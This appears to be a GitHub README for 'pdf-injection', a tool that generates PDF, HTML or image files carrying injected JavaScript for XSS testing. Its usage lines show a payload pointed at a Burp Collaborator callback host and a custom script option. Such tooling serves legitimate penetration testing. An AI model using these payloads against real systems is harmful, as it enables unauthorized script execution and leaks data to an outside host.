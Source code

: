 # pdf-injection

Installation
```
git clone https://github.com/kaanatmacaa/pdf-injection.git
```

Usage
```
python3 xss-pdf.py -h
python3 xss-pdf.py 
python3 xss-pdf.py -u http://burpsuite12345.oastify.com
python3 xss-pdf.py -u http://burpsuite12345.oastify.com -sc "app.alert(2)"
python3 xss-pdf.py -o html
```

-o output: pdf, html, image
-u url: http://burpsuite12345.oastify.com
-sc: add additional script to PDF file


Open to new suggestions, please create an issue